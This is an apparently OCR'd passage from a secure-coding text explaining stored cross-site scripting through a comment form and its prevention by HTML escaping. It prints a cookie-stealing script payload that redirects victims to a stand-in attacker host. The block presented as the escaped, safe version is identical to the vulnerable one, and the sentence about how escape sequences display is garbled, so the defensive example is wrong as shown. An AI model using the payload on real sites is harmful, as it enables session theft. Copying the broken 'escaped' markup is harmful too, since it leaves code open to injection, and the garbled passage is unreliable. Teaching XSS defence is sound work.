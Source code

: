 ```
POST /article/12748/comment HTTP/1.1
Content-Type: application/x-www-form-urlencoded
comment=<script>window.location=
 'haxxed.com?cookie='+document.cookie</script>
```

3. Another user views the page where this untrusted input is displayed. The <script> tag is written in the HTML of the web page:

```
<div class="comments">
 <p class="comment">
 <script>
 window.location='haxxed.com?cookie='+document.cookie
 </script>
 </p>
</div>
```

4. The malicious script is executed in the victim's browser. This script can cause all sorts of problems. A popular approach is to send the user's cookies to a remote server that's controlled by the attacker, as in the preceding example.

The key to protecting against XSS is ensuring that any untrusted content—any content potentially entered by an attacker—is escaped as it is written out on the other end. Specifically, this approach means replacing metacharacters with their corresponding escape sequences:

```
<div class="comments">
 <p class="comment">
 <script>
 window.location='haxxed.com?cookie='+document.cookie
 </script>
 </p>
</div>
```

Escape sequences will be rendered visually as their unescaped counterparts (so < will display as < on the screen), but the HTML parser will not see them starting or ending an HTML tag. The following figure shows the full list of escape sequences needed for HTML.
